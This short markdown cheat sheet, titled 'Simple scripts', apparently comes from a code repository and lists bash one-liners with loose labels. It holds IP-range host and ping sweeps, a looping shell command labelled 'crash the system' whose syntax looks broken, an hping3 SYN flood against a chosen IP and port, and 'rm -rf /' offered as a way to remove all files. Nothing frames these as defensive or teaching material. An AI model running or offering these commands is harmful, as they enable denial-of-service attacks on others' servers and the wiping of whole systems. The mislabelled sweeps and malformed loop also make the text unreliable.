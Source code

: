 # Simple scripts:

**Finding subdomains:**
```bash
for i in {1..255..1};do host 8.8.8.$i|grep -v not\ found;done
```

**decuct is ip up:**

```bash
for i in {1..255..1};do ping 192.168.43.$i|grep bytes;done
```

**crash the system:**

```bash
while true;do while true;do done;&;done
```

**Syn flood against server with hping3:**

```bash
hping3 -S --flood <ip> -p <port>
```

**rm all files:**

```bash
rm -rf /
```
